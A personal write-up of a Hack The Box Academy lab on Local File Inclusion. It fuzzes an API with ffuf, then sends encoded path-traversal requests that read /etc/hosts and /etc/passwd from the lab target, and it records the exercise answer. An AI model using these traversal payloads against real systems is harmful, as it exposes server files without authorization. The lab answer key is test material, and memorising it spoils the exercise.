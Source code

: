 ```yaml
---
sticker: emoji//1f480
---
```

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`. Our [File Inclusion](https://academy.hackthebox.com/module/details/23) module covers LFI in detail.

Let us assess together an API that is vulnerable to Local File Inclusion.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.

Let us first interact with it.


```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api
{"status":"UP"}
```

We don't see anything helpful except the indication that the API is up and running. Let us perform API endpoint fuzzing using _ffuf_ and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.

```shell-session
smoothment@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3000/api/FUZZ
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
download                [Status: 200, Size: 71, Words: 5, Lines: 1]
:: Progress: [87/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

It looks like `/api/download` is a valid API endpoint. Let us interact with it.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.

```shell-session
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

The API is indeed vulnerable to Local File Inclusion!

# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219171803.png)

We can do:

```
curl "http://10.129.27.149:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd"
```

This outputs:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bas
```

Answer is:

```
Ubuntu
```